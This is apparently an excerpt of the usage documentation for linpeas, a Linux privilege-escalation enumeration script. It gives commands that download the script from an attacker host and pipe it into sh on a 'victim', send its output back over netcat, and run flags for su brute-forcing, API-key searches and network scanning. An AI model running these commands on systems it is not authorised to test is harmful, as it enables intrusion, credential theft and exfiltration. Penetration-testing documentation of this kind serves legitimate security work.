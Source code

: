 ```
```


```
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```




Output to file:
```
./linpeas.sh -a > /dev/shm/linpeas.txt

# Read with colors
less -r /dev/shm/linpeas.txt
```


#### Flags

Checks:

`-a` Perform all checks: 1 min of processes, su brute, and extra checks.

`-o` Only execute selected checks (system_information,container,cloud,procs_crons_timers_srvcs_sockets,network_information,users_information,software_information,interesting_perms_files,interesting_files,api_keys_regex). Select a comma separated list.

`-s` Stealth & faster (don't check some time consuming checks)                                                                                    
`-e` Perform extra enumeration

`-t` Automatic network scan & Internet conectivity checks - This option writes to files                                                           
`-r` Enable Regexes (this can take from some mins to hours)                                                                                       
`-P` Indicate a password that will be used to run 'sudo -l' and to bruteforce other users accounts via 'su'     
                                  
`-D` Debug mode



Network recon:
                                                     
`-t` Automatic network scan & Internet conectivity checks - This option writes to files
                                                         
`-d` <IP/NETMASK> Discover hosts using fping or ping. Ex: -d 192.168.0.1/24                                      
                                 
`-p` <PORT(s)> -d <IP/NETMASK> Discover hosts looking for TCP open ports (via nc). By default ports 22,80,443,445,3389 and another one indicated by you will be scanned (select 22 if you don't want to add more). You can also add a list of ports. Ex: -d 192.168.0.1/24 -p 53,139
                     